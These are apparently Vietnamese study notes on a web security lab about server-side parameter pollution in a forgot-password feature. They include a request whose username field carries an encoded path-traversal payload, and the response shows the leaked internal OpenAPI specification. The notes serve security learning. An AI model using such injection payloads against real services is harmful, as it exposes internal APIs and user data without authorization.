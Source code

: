 note (1.2) có khả năng server-side sử dụng REST URL có cấu trúc: api/.../users/*username* 


### Phân tích

- Test (1) có khả năng server-side sử dụng REST URL có cấu trúc: api/.../users/*username* 

- note (A): chức năng forgot-password này có khả năng là thông qua một số bước nào đó để lấy được resetToken sau đó sử dụng endpoint /forgot-password?reset_token=*token* để đặt lại mật khẩu

### Attack surface & Untrusted data

- Attack surface: cơ chế gọi api server side 

- Untrusted data: input username,...

### Test (2)

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fopenapi.json%23

![alt text](image-38.png)
output:
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}

=